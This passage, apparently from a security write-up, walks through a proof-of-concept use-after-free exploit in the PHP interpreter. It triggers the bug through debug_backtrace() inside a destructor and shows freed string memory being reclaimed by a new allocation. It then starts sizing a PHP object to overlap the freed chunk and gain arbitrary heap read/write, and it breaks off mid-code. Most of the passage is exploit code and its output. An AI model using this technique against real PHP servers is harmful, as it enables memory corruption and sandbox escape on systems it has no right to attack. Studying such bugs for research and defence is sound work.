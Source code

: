 ```php
trigger_uaf('x'); // using trigger_uaf() we are free'ing $arg and putting the backtrace in our global variable: $backtrace
var_dump($backtrace[1]['args'][0]); // printing the free'd zend_string
$another_var = str_repeat('B', 79); // creating another allocation of the same size in order to catch the free memory slot
var_dump($backtrace[1]['args'][0]); // printing $arg again

```
>Note: don't let ``str_shuffle()`` confuse you, it's just to prevent [OPCache Interned Strings](https://support.acquia.com/hc/en-us/articles/360005319294-Understanding-and-Resolving-PHP-OPcache-and-OPcache-Interned-Strings-buffer-errors): "*The Interned Strings buffer is the amount of memory (in megabytes M) used to store identical strings*". 
>
>It is not important for this PoC but it will prevent crashes soon when we'll show the full exploit.

Notice at the last 3 lines: we are printing **the same variable** twice with two calls to ``var_dump()``. The output supposed to be ``AAAAAAAA...`` twice, right...?

This is the output:

```
string(79) "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
string(79) "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"
```

We managed to trigger the UAF! ``$another_var`` and ``$backtrace[1]['args'][0]`` shares the same memory address #success

Instead of overlapping a ``zend_string`` with another ``zend_string`` (which is not so useful), we will overlap a ``zend_string`` with a ``zend_object`` to get arbitrary read/write on the heap. 

First, we'll have to understand what is the size of the chunk that ``str_repeat('A', 79)`` generates:

* ``A`` times 79 = 79 bytes
* The rest of the ``zend_string`` structure = 25 bytes
* Total = 104 bytes allocated

In order to create a PHP object with the right size (104 bytes) we'll create a PHP object with 4 properties in it:

```php
<?php
global $backtrace;
/*
A Helper object has to be with 4 properties in it in order to make it be with a size of 104 bytes:

sizeof(zend_object) ---> 56

56 bytes is the size of a PHP object with just one property in it (the default is one).

We can make it bigger by adding more properties when we define the Helper class: 
public $a; ----> zend_object size: 56
public $b; ----> zend_object size: 72   (+16 we're adding another zval)
public $c; ----> zend_object size: 88   (+16 we're adding another zval) 
public $d; ----> zend_object size: 104  (+16 we're adding another zval)
*/
class Helper {
    public $a, $b, $c, $d; 
}

class Vuln {
        public $a;
        public function __destruct() {
                global $backtrace;
                unset($this->a); // free'ing 104 bytes
                $backtrace = debug_backtrace(); 
```